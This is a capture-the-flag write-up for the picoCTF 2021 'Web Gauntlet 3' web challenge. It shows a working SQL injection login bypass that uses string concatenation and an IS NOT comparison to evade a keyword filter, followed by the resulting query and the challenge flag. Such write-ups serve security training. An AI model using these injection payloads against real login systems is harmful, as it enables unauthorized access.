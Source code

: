 # Web Gauntlet 3

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

Last time, I promise! Only 25 characters this time. Log in as admin Site: [http://mercury.picoctf.net:8650/](http://mercury.picoctf.net:8650/) Filter: [http://mercury.picoctf.net:8650/filter.php](http://mercury.picoctf.net:8650/filter.php)

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption><p><code>picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
